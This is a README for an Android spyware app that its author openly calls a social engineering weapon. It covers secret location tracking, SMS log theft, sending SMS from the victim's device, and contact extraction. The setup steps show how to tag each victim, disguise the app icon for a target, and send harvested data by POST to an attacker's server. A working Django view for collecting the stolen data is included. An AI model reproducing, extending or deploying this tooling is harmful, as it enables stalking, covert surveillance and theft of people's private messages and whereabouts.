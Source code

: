 <center> <h1> Track Control Weapen </h1> </center>

## Overview

This mobile app offers multiple modes of Social Engineering operation:

1. **Exact Location Tracking**: Track the exact location of the device.
2. **SMS Log Extraction**: Extract SMS logs from the device.
3. **Sending SMS from Device**: Send SMS messages from the device.
4. **Contact Extraction**: Extract contact information from the device.
5. **Installed App List Extraction**: Retrieve a list of installed apps on the device.
6. **More features coming soon**: Additional features will be added in future updates.

Currently, only the Exact Location Tracker is completed.

## TODO List

- [x] Exact Location Tracker
- [x] SMS Log Extraction
- [x] Sending SMS from Device
- [ ] Contact Extraction
- [ ] Installed App list Extraction
- [ ] Additional features

## Setup Instructions

To set up the app, follow these steps:

1. **Configure `strings.xml`**:
   - Navigate to the `res/values` folder.
   - Create or edit the `strings.xml` file using the template below:

### strings.xml Template

```xml
<resources>
    <string name="app_name">Your App Name</string>
    <string name="Victim">Name of victim to tag the received data</string>
    <string name="AppType">App type to generate (refer Changing App Modes) </string>
    <string name="server_Url">Server URL where POST request is created</string>
    <string name="SendSmsTo"> Phone No</string>
    <string name="Message">test Message to check</string>
    <string name="profile_image">Upload Profile Pic</string>
    <string name="upload_image">Update Pic</string>
</resources>
```

2. **Change the app icon**:

   - Navigate to the `res` folder.
   - Replace the existing icon files in the `mipmap` folders with your target(victim) based icon files.

3. **Build and Run the App**:
   - Open your project in Android Studio.
   - Build and run the app on your device or emulator.

## Structure of the POST Request

The app sends data to the server using a POST request with the following structure:

- `name`: Assigned in the `strings.xml`
- `mv01`: Contains all raw text data sent by the app

### Example POST Request

```json
{
	"name": "victim name",
	"mv01": "this is sent data"
}
```

## Receiver End Setup

The receiver end can be a Django server hosted on PythonAnywhere (https://www.pythonanywhere.com/) for free. To handle the POST request, you can use the following view:

```python
from django.views.decorators.csrf import csrf_exempt
from django.views.decorators.http import require_POST
from django.http import JsonResponse
from .models import tracker_database

@csrf_exempt
@require_POST
def tracker_database_entry(request):
    if request.POST.get("mv01"):
        entry = tracker_database(
            plan_data=request.POST.get("mv01"),
            name=request.POST.get("name", "s")
        )
        entry.save()
        response = {'status': 'success'}
        return JsonResponse(response, status=201)
    else:
        response = {'status': 'failure', 'message': 'Invalid data'}
        return JsonResponse(response, status=400)
```

## Changing App Modes

You can change the app modes by altering the `private Integer AppType = 1;` value in `MainActivity`. The available modes are:

- `0` -- All: Enable all features [only extraction].
- `1` -- Location: Enable exact location tracking.
- `2` -- SMS: Enable SMS log extraction.
- `3` -- Send SMS: Enable sending SMS from the device.
- `4` -- Contact: Enable Contact log extraction.
- `5` -- Installed App: Enable Installed App list log extraction.

## Contribution

If you would like to contribute to the project, please follow these steps:

1. Fork the repository.
2. Create a new branch (`git checkout -b feature-branch`).
3. Make your changes and commit them (`git commit -m 'Add new feature'`).
4. Push to the branch (`git push origin feature-branch`).
5. Create a new Pull Request.

## License

This project is licensed under the MIT License. See the `LICENSE` file for more details.
